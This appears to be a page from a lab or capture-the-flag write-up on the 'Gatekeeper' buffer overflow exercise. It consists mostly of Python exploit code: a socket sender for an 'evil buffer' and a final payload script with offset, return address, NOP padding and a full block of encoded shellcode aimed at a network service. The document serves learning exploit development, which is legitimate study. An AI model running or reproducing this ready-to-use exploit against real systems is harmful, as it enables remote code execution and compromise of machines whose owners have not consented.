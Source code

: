 ```python
buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
  print("Sending evil buffer...")
  s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
except:
  print("Could not connect.")
```

---

### Exploit!!! Que chille!

- Checklist for correct variables: 

    1. prefix (_not needed in Gatekeeper Lab_)
    2. offset
    3. return address (retn)
    4. padding
    5. payload set

- **Final Payload Script = `overflow_gatekeeper_step567_Final_Payload.py`**

```python
import socket

ip = "192.168.1.100"
port = 31337

prefix = ""
offset = 146
overflow = "A" * offset
retn = "\xC3\x14\x04\x08"
padding = "\x90" * 16
payload = ("\xba\x1c\xf2\x98\x43\xda\xc5\xd9\x74\x24\xf4\x5e\x31\xc9\xb1"
"\x52\x31\x56\x12\x03\x56\x12\x83\xda\xf6\x7a\xb6\x1e\x1e\xf8"
"\x39\xde\xdf\x9d\xb0\x3b\xee\x9d\xa7\x48\x41\x2e\xa3\x1c\x6e"
"\xc5\xe1\xb4\xe5\xab\x2d\xbb\x4e\x01\x08\xf2\x4f\x3a\x68\x95"
"\xd3\x41\xbd\x75\xed\x89\xb0\x74\x2a\xf7\x39\x24\xe3\x73\xef"
"\xd8\x80\xce\x2c\x53\xda\xdf\x34\x80\xab\xde\x15\x17\xa7\xb8"
"\xb5\x96\x64\xb1\xff\x80\x69\xfc\xb6\x3b\x59\x8a\x48\xed\x93"
"\x73\xe6\xd0\x1b\x86\xf6\x15\x9b\x79\x8d\x6f\xdf\x04\x96\xb4"
"\x9d\xd2\x13\x2e\x05\x90\x84\x8a\xb7\x75\x52\x59\xbb\x32\x10"
"\x05\xd8\xc5\xf5\x3e\xe4\x4e\xf8\x90\x6c\x14\xdf\x34\x34\xce"
"\x7e\x6d\x90\xa1\x7f\x6d\x7b\x1d\xda\xe6\x96\x4a\x57\xa5\xfe"
"\xbf\x5a\x55\xff\xd7\xed\x26\xcd\x78\x46\xa0\x7d\xf0\x40\x37"
"\x81\x2b\x34\xa7\x7c\xd4\x45\xee\xba\x80\x15\x98\x6b\xa9\xfd"
"\x58\x93\x7c\x51\x08\x3b\x2f\x12\xf8\xfb\x9f\xfa\x12\xf4\xc0"
"\x1b\x1d\xde\x68\xb1\xe4\x89\x56\xee\xe7\x0b\x3f\xed\xe7\x9a"
"\xe3\x78\x01\xf6\x0b\x2d\x9a\x6f\xb5\x74\x50\x11\x3a\xa3\x1d"
"\x11\xb0\x40\xe2\xdc\x31\x2c\xf0\x89\xb1\x7b\xaa\x1c\xcd\x51"
"\xc2\xc3\x5c\x3e\x12\x8d\x7c\xe9\x45\xda\xb3\xe0\x03\xf6\xea"
"\x5a\x31\x0b\x6a\xa4\xf1\xd0\x4f\x2b\xf8\x95\xf4\x0f\xea\x63"
"\xf4\x0b\x5e\x3c\xa3\xc5\x08\xfa\x1d\xa4\xe2\x54\xf1\x6e\x62"
"\x20\x39\xb1\xf4\x2d\x14\x47\x18\x9f\xc1\x1e\x27\x10\x86\x96"
"\x50\x4c\x36\x58\x8b\xd4\x56\xbb\x19\x21\xff\x62\xc8\x88\x62"
"\x95\x27\xce\x9a\x16\xcd\xaf\x58\x06\xa4\xaa\x25\x80\x55\xc7"
"\x36\x65\x59\x74\x36\xac")
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix
```